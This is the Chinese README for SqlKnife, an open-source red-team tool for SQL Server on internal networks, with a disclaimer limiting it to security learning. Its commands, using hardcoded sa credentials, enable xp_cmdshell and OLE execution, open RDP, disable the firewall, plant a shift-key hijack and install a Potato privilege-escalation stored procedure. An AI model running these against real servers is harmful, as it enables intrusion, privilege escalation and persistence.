

# SqlKnife

郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。

## 0x01 介绍

作者：hl0rey

团队：0x727，未来一段时间将陆续开源工具，地址：https://github.com/0x727

定位：内网SQL Server数据库安全检测

语言：C++、C#

功能：在命令行下对SQL Server进行命令执行、提权等安全检测操作

## 0x02 安装

无其他额外依赖

## 0x03 效果展示

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix

#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami

#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove

### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix

#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe

### 开RDP，关防火墙加规则（开RDP时自动加），劫持shift键

权限足够的前提下，基于注册表的操作

#### 开启RDP

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp

#### 关防火墙

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw

（可能不好用，可能是因为注册表位置参考windows10的原因）

#### 劫持shift键

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift

### PotatoInSQL

将土豆提权(--dbup)作为存储过程安装到数据库，然后调用。

#### 安装.net3.5版本的potatoinsql

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3

#### 利用土豆执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami

### 启用/还原配置功能

做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup

### 指定不同版本clr的payload

--3/--4 如果不加这个参数，默认是.net4版本的payload

## 0x04 使用方法 

| 语法                                                         | 功能                                                        |
| :----------------------------------------------------------- | :---------------------------------------------------------- |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix | 启用xp_cmdshell，其他fix类型功能都是这个格式                |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami | 使用xp_cmdshell执行命令，其他命令执行功能也是这个格式       |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove | 禁用xp_cmdshell，其他remove类型功能也是这个格式             |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix | 恢复Ole Automation Procedures                               |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe | Ole Automation Procedures执行程序                           |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp | 开启RDP                                                     |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw | 关闭防火墙                                                  |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift | 劫持shift键                                                 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3 | 安装.net3.5的甜土豆提权存储过程，如果安装.net4.0的话就是--4 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami | 利用甜土豆执行命令                                          |

## 0x06 实现原理

使用windows ADO连接SQL server数据库无需其他额外依赖，使用C#编写SQL CLR利用payload。

## 0x07 新增功能

无

## 0x08 反馈

SqlKnife 是一个免费且开源的项目，我们欢迎任何人为其开发和进步贡献力量。

* 在使用过程中出现任何问题，可以通过 issues 来反馈。
* Bug 的修复可以直接提交 Pull Request 到 dev 分支。
* 如果是增加新的功能特性，请先创建一个 issue 并做简单描述以及大致的实现方法，提议被采纳后，就可以创建一个实现新特性的 Pull Request。
* 欢迎对说明文档做出改善，帮助更多的人使用SqlKnife。
* 贡献代码请提交 PR 至 dev 分支，master 分支仅用于发布稳定可用版本。

*提醒：和项目相关的问题最好在 issues 中反馈，这样方便其他有类似问题的人可以快速查找解决方法，并且也避免了我们重复回答一些问题。*
